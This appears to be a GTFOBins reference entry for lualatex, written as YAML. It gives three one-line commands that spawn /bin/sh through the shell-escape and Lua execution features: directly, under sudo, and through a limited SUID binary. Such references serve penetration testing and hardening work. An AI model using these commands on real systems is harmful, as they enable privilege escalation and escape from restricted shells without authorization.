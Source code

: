 ```yaml
---
description: This allows to execute [`lua`](/gtfobins/lua/) code.
functions:
  shell:
    - code: lualatex -shell-escape '\documentclass{article}\begin{document}\directlua{os.execute("/bin/sh")}\end{document}'
  sudo:
    - code: sudo lualatex -shell-escape '\documentclass{article}\begin{document}\directlua{os.execute("/bin/sh")}\end{document}'
  limited-suid:
    - code: ./lualatex -shell-escape '\documentclass{article}\begin{document}\directlua{os.execute("/bin/sh")}\end{document}'
---
```

